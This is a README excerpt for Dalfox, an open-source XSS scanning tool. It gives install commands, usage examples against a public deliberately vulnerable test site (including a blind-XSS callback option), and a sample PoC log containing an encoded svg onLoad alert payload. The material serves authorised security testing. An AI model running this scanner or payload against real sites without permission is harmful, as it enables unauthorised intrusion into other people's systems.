 And the various options required for the testing :D

## How to Install
### From source
**go1.17**
```
go install github.com/hahwul/dalfox/v2@latest
```

**go1.16**
```
GO111MODULE=on go get github.com/hahwul/dalfox/v2
```

### Using homebrew (macos)
```
brew tap hahwul/dalfox
brew install dalfox
```

### Using snapcraft (ubuntu)
```
sudo snap install dalfox
```

More information? please read [Installation guide](https://dalfox.hahwul.com/docs/installation/)

## Usage
```
dalfox [mode] [target] [flags] 
```

Single target mode
```bash
dalfox url http://testphp.vulnweb.com/listproducts.php\?cat\=123\&artist\=123\&asdf\=ff \
	-b https://your-callback-url
```

Multiple target mode from file
```bash
dalfox file urls_file --custom-payload ./mypayloads.txt
```

Pipeline mode
```bash
cat urls_file | dalfox pipe -H "AuthToken: bbadsfkasdfadsf87"
```

Other tips, See [wiki](https://github.com/hahwul/dalfox/wiki) for detailed instructions!

## POC format
Sample poc log
```
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php?artist=123&asdf=ff&cat=123DalFox
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&asdf=ff&cat=123%22%3E%3Csvg%2Fclass%3D%22dalfox%22onLoad%3Dalert%2845%29%3E
```
